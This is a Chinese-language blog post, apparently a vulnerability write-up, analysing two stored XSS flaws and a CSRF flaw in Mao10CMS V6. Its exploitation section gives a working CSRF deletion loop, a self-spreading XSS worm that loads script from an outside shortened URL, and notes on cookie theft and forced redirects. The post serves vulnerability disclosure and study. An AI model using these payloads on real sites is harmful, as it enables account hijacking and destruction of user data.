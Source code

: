```yaml
---
layout: post
title: "Mao10CMS V6 两处过滤不严可导致XSS、CSRF、XSS Wrom"
---
```


# 0x00 前言 #

虽然手速没有别人快，漏洞也比较简单，还是把过程贴出来慢慢努力吧

* 官网v6.1.6版本，<http://www.mao10.com/?m=post&a=single&id=44>
* 测试环境docker wnameless/mysql-phpmyadmin(apache2，php5，mysql5)

由于该cms第一个注册的用户默认是管理员账户权限较大，其他用户再未特殊的设置下均为普通账户，在测试时需加以注意。（如下说明中admin为管理员账户，larry0x为普通账户）

<!-- more -->

# 0x01 第一处XSS #

在黑盒测试当中，普通用户登陆后在进入个人主界面，在发表动态处未对输入及输出进行过滤，可导致客户端的代码攻击：

![][1]

黑盒逆向追踪源代码分析如下：

右键源代码之后可以发现232~244为form表单进行动态内容的提交

![][2]

在do/activity.php的1~17行有：

![][3]

其中将post的content直接传递进入hmset进行数据库的操作，跟进在mysql.php中的409~439行讲保存数据的数组进行了自定义的序列化之后插入数据库：

![][4]

跟进do/function.php的50~57行，这里只是简单得序列化压缩编码保存进入了数据库：

![][5]

至此我们的恶意输入已经保存在了服务器上。

由于所有的用户动态都会反应在页面坐下脚的“最新动态的面板”当中，让我们继续看看此处的输出是否有过滤。

在全局搜索“最新动态”的div的class名“activityShowList”，可发现该模板页面在theme/default/activity.php当中，再次全局搜索activity.php的调用，发现theme/default/footer.php会对其进行包含，而footer.php在模板页面中均会被包含。

下面定位到theme/default/activity.php的1~39行：

![][6]

其会取出最近5次的用户动态，并在第35行中调用hget方法对动态的内容进行输出。

在mysql.php的366~372行当中也是对其内容反序列化后就返回结果，最终传递到模板当中：

![][7]

所以整个参数的传递过程中从入库到出库都未进行过滤直接输出后即可导致恶意的客户端代码执行。

# 0x02 第二处XSS #

第二处的XSS存在与发布文字的话题处，此处可由用户创建任意的话题，此处也未对恶意输入进行过滤并输出，进而导致客户端代码的可执行性，在查看文章和主页显示最新文章时都可触发：

![][8]

![][9]

首先在发布文章处右键源代码，定位到486~517为创建话题的form表单：

![][10]

随后跟进到do/pubform-topic.php文件中，在1~37当中：

![][11]

由于没有POST id值，直接进入21行的逻辑，虽然在第26,27行对提交的内容有严格的过滤，并在29行对数据进行序列化存储到数据库当中。但注意到在第25行则是直接对POST的话题title插入到zset表当中，而未进行任何过滤：

![][12]

由于最后的输出点在主页的热门文章当中，我们来看看输出情况是如何的，定位到theme/default/index.php中的56~62行：

![][13]

在58行中通过maoo_term_title获取文章话题的title，跟进do/function.php的918~926行：

![][14]

这里直接通过zscore函数从zset表中获取对应的content，最后输出到页面中：

![][15]

# 0x03 危害 #

以下均已最新动态的处的xss为例，当然在热门文章处也是可以利用触发的，原理相同

## XSS ##

最简单的打cookie喽：

![][16]

不过在利用时会有一些限制，在do/function.php的426~497行当中：

![][17]

这里使用token登陆我是没有找到其他的逻辑，所以就受限于485行的验证ip了，若达不到ip的话就只能进行IP伪造（该cms存在该缺陷）去暴力了

其他有趣的玩法比如插入`<script>document.location="http://www.baidu.com";</script>`就可以“恶意跳转”啦，其他的可以自己发挥～

## CSRF ##

在这里附送一个CSRF，在用户主页当中，存在一个删除用户动态的链接：

![][18]

接着让我们定位到do/delete.php的229~238行：

![][19]

在第231行虽然对权限进行了判定，只有管理员可以删除，但是并未对来源进行限制，因此可以对管理员进行CSRF攻击删除所有用户的动态信息，利用代码类似如下：

{% highlight javascript %}
<script type="text/javascript">
    for (var i = 0; i < 1000; i++) {
        if (i == 77 ) {continue; //skip itself}
        m = new Image();
        m.src = "http://localhost:8080/mao10cms-mysql/do/delete.php?type=activity&id=" + i;
    }
</script>
{% endhighlight %}

## XSS Worm ##

由于在最新动态处都会显示最新的5条动态信息，并且是包含在模板页面当中的，也就说任何用户登陆后即可加载我们插入的js，进行恶意操作，这里我以关注对应用户和发布动态（维持Worm状态）为例，js代码如下：

{% highlight javascript %}
var m = new Image();
m.src = document.getElementsByTagName('link')[0].href + "/../../../do/add_guanzhu.php?id=2";
var url = document.getElementsByTagName('link')[0].href + "/../../../do/activity.php";
var post_str = "content=hi%3Cscript%20src%3D%27http%3A%2f%2ft.cn%2fRch1cI9%27%3E%3C%2fscript%3E";
var ajax = null;
if (window.XMLHttpRequest) {
    ajax = new XMLHttpRequest();
}
else if (window.ActiveXObject) {
    ajax = new ActiveXObject("Microsoft.XMLHTTP");
}
ajax.open("POST",url,true);
ajax.setRequestHeader("Content-type","application/x-www-form-urlencoded");
ajax.send(post_str);
{% endhighlight %}

![][20]

[1]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qpxscieej20qs0jbmz0.jpg
[2]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpxss8ybj20qy05j75a.jpg
[3]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpxt8bl2j20j3078gma.jpg
[4]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpxufjpdj20kj0e7di5.jpg
[5]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpxv16oej20jw03c74j.jpg
[6]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qpxvwgjdj20rr0iq420.jpg
[7]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpxwf0f4j20rx03djrw.jpg
[8]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpxxlixkj20yg0f4myd.jpg
[9]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpxxzy2lj20ot0a1gm4.jpg
[10]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpy0ughuj20u40ey0v7.jpg
[11]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qpy1rh6nj20kt0gajuv.jpg
[12]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpy36lafj20ku05vq3v.jpg
[13]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qpy2lbhqj20qs0ejad3.jpg
[14]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpy3ler9j20k303ujrq.jpg
[15]: https://wx1.sinaimg.cn/large/ee2fecafly1g3qpy5hvruj210k0g177p.jpg
[16]: https://wx4.sinaimg.cn/large/ee2fecafly1g3qpy6atmbj20kv0hb0vk.jpg
[17]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpy70fnoj20km0fg0uy.jpg
[18]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpy7u30yj20rk0gy0ux.jpg
[19]: https://wx3.sinaimg.cn/large/ee2fecafly1g3qpy896zhj20l104mwfe.jpg
[20]: https://wx2.sinaimg.cn/large/ee2fecafly1g3qpy98ha7j20yw0jlgpl.jpg
